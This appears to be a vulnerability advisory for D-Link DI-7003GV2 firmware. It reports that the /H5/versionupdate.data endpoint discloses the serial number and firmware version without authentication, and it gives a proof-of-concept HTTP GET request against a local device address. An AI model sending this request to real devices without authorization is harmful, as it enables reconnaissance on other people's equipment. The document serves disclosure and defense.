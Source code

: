 # Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlink.com.cn/techsupport/download.ashx?file=7828

# Affected version

DI-7003GV2-24.04.18D1 R(68125)

# Vulnerability description

The D-Link DI-7003GV2 firmware version 24.04.18D1 R(68125) contains an information disclosure vulnerability in the `/H5/versionupdate.data` endpoint. Remote attackers can access this interface without authentication to retrieve sensitive device information, including the serial number and firmware version. 


# Vulnerability details

The handling function for the `H5/versionupdate.data` interface is `sub_48F4F0`.

![图 1](img/34a0c13315857cd887824e59751b4b1a7aabcfe3c0eda429b87274e2099f3d71.png)  

The `sub_48F4F0` function retrieves sensitive information such as firmware version and device model and outputs it to the user, and it returns a JSON formatted response.

![图 2](img/ed5d337780675379d9ce8b2df4a50bf3313ca31830e9dbb290f1f470721de40a.png)  


# Poc


```http
GET /H5/versionupdate.data HTTP/1.1
Host: 192.168.140.240
Content-Length: 0
Cache-Control: max-age=0
Origin: http://192.168.140.240
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.140.240/login.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
```

![图 0](img/0435bab0b9f42c029774e1266b78c99180b8e49d6decbf0086ae7e6be7f810c2.png)  
